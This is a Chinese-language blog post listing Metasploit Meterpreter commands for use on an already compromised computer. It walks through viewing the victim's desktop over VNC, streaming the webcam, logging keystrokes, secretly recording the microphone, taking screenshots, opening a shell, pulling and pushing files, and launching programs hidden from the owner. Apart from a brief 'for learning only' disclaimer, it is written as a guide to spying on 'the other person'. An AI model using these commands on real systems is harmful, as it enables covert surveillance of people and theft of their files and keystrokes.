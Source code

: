```yaml
---
layout: post
title: '在Msf黑电脑的专用命令'
tags: linux 命令 shell
img: https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/MsfCmd/cover.jpg
---
```


当你进入Meterpreter命令行后，你就可以使用这些命令了。

**警告：当你执行这些命令时，要确保你不能随意的攻击别人的电脑，你只能供学习使用。如果有任何问题我不负责！**

### 使用vnc查看桌面

VNC是一种远程连接的类型。就好像TeamViewer。但是，两者间不同的点是:VNC的基础是搭在Linux上的，是使用IP地址进行连接的类型，而控制也比较流畅TeamViewer的基础是搭在Windows的，是使用ID号进行连接的类型，而控制会有些一卡一卡的。

但是，Metasploit的基础是搭在Linux上的。所以Metasploit选用了VNC连接。

```msf
run vnc
```
### 监视摄像头

运行此命令后，你会发现`/home/root`目录生成了一个`乱码文件名.html`的文件。打开此文件后，会看到对方的摄像头的内容。

```msf
webcam_stream
```

### 监视键盘按下内容

执行此命令后，可以看到对方正在打什么字。如果你要查看对方打什么，先输入

```msf
keyscan_start
```

来开启键盘记录功能。

随后，显示键盘输入什么，请输入

```msf
keyscan_dump
```

如果你看够了，输入这条命令来结束。

```msf
keyscan_stop
```

### 录制声音

这又是一个很有趣的命令了。但是，这个命令仅支持安装了麦克风的电脑。

这种电脑大多数是笔记本、手提电脑。

如果你要窃听对方的电脑麦克风`x`秒，你可以输入

```msf
record -d x
```

这里面的x改为你要窃听的秒数。

另外，你如果想从输入命令后起就窃听，这就有点不太行了。。

好吧，下面这个命令是从输入命令之后开始窃听**直到按下`Ctrl`+`C`** 。

```msf
record_mic
```

### 截屏

他会告诉你保存到哪里的，不过保存下载的截屏文件名也是乱码。

```msf
screenshot
```

### 进入cmd

入侵不同的系统有不同的命令行。比如入侵Windows就是进入cmd，入侵Linux就是进入bash。
```msf
shell
```

### 从目标机器下载东西

有点和上面的一样。但是Windows有盘符，而Linux没有盘符。所以如果你想要在Windows下载一些资料的话，要确认那个放资料的盘符，然后每进入一个目录输入两条`\`。

```msf
download C:\\path\\to\\file
```

上面的`C:\\path\\to\\file`可以改成你要下载的文件所在。

如果是Linux，就更简单：
```msf
download /mnt/secretfolder/x
```

上面的`/mnt/secret/x`可以改成你要下载的文件所在。

### 从kali上传内容到目标机器

这又有点不同了。这次是要上传，所以要按照`upload 本地文件 上传的目录`的格式填写。就比如我的账户`root`账号里有一个叫做x的文件，我要这样写：

```msf
upload /home/root/x C:\\path\\for\\upload
```

`/home/root/x`可以改成你的文件所在，`C:\\path\\for\\upload`可以改成你要上传到的目录。

当然，改成Linux的话也是差不多一样：

```msf
upload /home/root/x /home/user/desktop
```

`/home/root/x`改成你的文件所在，`/home/user/desktop`改成要上传到的目录下。

### 查看有几个摄像头

这个命令可以先“概览”一下这台机器有没有摄像头。比如说你要攻击安卓，万一安卓机器是装在台式机上的，且没配备摄像头，这就不好说了吧。。

如果你知道你是在攻击手提电脑Windows或其他，这就变成了装逼_的命令。

```msf
webcam_list
```

### 运行程序

如果你是运行在Windows下，这就比较好了。因为Windows在“运行程序”可以不需要带目录_。但是在Linux就说不定了，就要带目录。

```msf
execute -f 文件名
```

如果想要打开应用而不被机主发现打开了程序，可以加`-H`参数，隐秘的打开。

```msf
execute -f -H 文件名
```

如果想要交互式的打开而又不要机主发现，加`-i`参数咯。

*(当是在Windows的环境下输入是cmd的话，有惊喜！)*

```msf
execute -i -f -H 文件名
```
